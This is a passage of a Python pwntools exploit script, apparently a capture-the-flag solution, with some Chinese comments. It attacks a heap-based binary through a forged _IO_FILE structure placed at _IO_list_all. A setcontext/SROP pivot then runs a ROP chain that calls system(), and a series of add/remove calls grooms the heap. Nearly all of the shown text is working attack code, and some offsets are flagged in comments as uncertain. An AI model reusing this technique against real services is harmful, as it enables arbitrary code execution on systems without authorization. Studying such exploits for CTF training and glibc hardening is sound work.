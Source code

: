 ```py
heap_base = heap_leak - 0xadd00 + 0x99000
print(hex(libc_base))
print(hex(heap_base))

io_list_all= libc_base + libc.sym["_IO_list_all"]
p.recvuntil("(yes or no)")
p.sendline("no")
io_file_addr = heap_base + 0xdb960 - 0xc6000 # todo
srop_addr= heap_base + 0xdba70-0xc6000
magic= 0x167418+libc_base # 0x0000000000167420 嘶 这个末位可能不太行
pop_rdi_ret = 0x2a3e5+libc_base
wide_data_addr = heap_base
setcontext = libc_base + 0x053A1D
ret = libc_base + 0x53B02
fake_stack_addr = srop_addr+0xb0+0x30

io_file = p64(~(2 | 0x8 | 0x800)+0x100000000)+p64(srop_addr)
io_file = io_file.ljust(0x20, b"\x00")
io_file += p64(1)+p64(2)
io_file = io_file.ljust(0x68, b"\x00")+p64(magic)
io_file = io_file.ljust(0x88, b"\x00")+p64(io_file_addr + 0xe8)
io_file = io_file.ljust(0xa0, b"\x00")+p64(io_file_addr)
io_file = io_file.ljust(0xd8, b"\x00")+p64(libc_base + 0x002170C0)+p64(io_file_addr)+p64(0)+p64(srop_addr)

srop=p64(0)*4+p64(setcontext)
srop=srop.ljust(0x78,b"\x00")+p64(fake_stack_addr)
srop=srop.ljust(0xa0,b"\x00")+p64(fake_stack_addr)+p64(ret)
rop = p64(pop_rdi_ret)+p64(libc_base + 0x1D8678)+p64(libc_base+libc.sym["system"])
srop = srop+p64(0)*6+rop

for i in range(3):
    add(str(20 +i).ljust(0x21,"a"))
for i in range(3):
    remove(str(20 +i).ljust(0x21,"a"),None)
for i in range(3):
    add(str(20 +i).ljust(0x21,"a"))
for i in range(3):
    remove(str(20 +i).ljust(0x21,"a"),b'a'*0x100)


# 把堆块都给占上
for i in range(8):
    add(str(i).ljust(0xe1,"a"))
add(str(8).ljust(0xa0,"t"))
add(str(9).ljust(0xe1,"a")) # 这没被删

add((str(12).ljust(0x60,"a")))
remove((str(12).ljust(0x60,"a")),None)
add(str(12).ljust(0x60,"a"))
remove(str(12).ljust(0x60,"a"),b"a"*0x110)

add(str(11).ljust(0x30,"a"))
add(str(12).ljust(0xe1,"a")) # 这没被删
# 随机 free 7个 chunk 再把 str(10) 给 free 了

for i in range(7):
    remove(str(i).ljust(0xe1,"a"),b"a"*0x110)
# remove(str(10).ljust(0xf1,"a"),b"a"*0x110)

add(b"BL*Support*Center@fl.support.center")
remove(b"BL*Support*Center@fl.support.center",None)
add(b"BL*Support*Center@fl.support.center")
```
